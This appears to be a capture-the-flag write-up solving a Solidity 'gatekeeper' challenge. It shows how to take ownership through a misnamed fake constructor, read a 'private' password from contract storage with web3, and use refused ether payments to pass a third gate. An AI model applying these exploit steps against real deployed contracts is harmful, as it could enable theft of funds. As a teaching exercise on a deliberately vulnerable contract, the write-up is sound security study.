> Cope with gates and become an entrant.

## Gate one

As usual the transaction must come from a contract:

```solidity
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

And it can be made `owner` thanks to a fake constructor:

```solidity
function construct0r() public {
    owner = msg.sender;
}
```

## Gate two

Gate two is actually quite straightforward:

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

There's only one function that modifies this state variable:

```solidity
function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
}
```

And the password is the block timestamp:

```solidity
uint private password = block.timestamp;
```

It can be extracted by manually reading the storage:

```js
const _trick = await contract.trick()
const _pass = await web3.eth.getStorageAt(_trick, 2, (e,d)=>{console.log(d)});
await contract.getAllowance(_pass)
```

## Gate three

We just need to send ether and refuse incoming payments (IE not do anything):

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

## Opwn

Finally, push the door open:

```solidity
function opwn(address target) external {
    Gate(target).enter();
}
```
